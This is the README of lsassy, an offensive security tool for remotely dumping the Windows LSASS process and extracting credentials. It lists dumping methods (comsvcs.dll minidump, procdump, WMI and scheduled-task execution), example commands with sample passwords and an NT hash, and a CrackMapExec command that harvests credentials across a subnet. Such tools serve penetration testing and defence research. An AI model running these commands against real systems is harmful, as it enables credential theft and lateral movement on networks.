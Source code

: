 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=1.1.0&x2=0)](https://pypi.org/project/lsassy/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)

![CME Module example](https://github.com/Hackndo/lsassy/assets/example.png)

Python library to remotely extract credentials.

Blog post : https://en.hackndo.com/remote-lsass-dump-passwords/

This library uses [impacket](https://github.com/SecureAuthCorp/impacket) project to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced)                  | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples)                        | Command line examples for standalone and CME module     |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

### Dumping methods

This tool can dump lsass in different ways.

Dumping methods (`-m` or `--method`)
* **0**: Try all methods to dump procdump, stop on success (Requires -p if dll fails)
* **1**: comsvcs.dll method, stop on success (default)
* **2**: Procdump method, stop on success (Requires -p)
* **3**: comsvcs.dll + Powershell method, stop on success
* **4**: comsvcs.dll + cmd.exe method

#### comsvcs.dll method

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump** function from **comsvcs.dll** to dump **lsass** process.

This method can only be used when context has **SeDebugPrivilege**. This privilege is either in Powershell local admin context, or cmd.exe SYSTEM context.

Two execution methods can be used.
1. **WMIExec** with cmd.exe (no SeDebugPrivilege), or powershell (SeDebugPrivilege)
2. **ScheduledTasks** with SYSTEM context (SeDebugPrivilege)

#### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Examples

```bash
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 0 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 1
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 2 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 3
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 4
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](https://github.com/Hackndo/lsassy/tree/master/cme)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound
```

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v1.1.0
------
* Better execution process : --method flag has been added and described in help text
* Uses random dump name
* Chose between cmd, powershell, dll and/or procdump methods
* CME module is now using light lsassy WMIExec et TASKExec implementation
* Bug fixes

v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
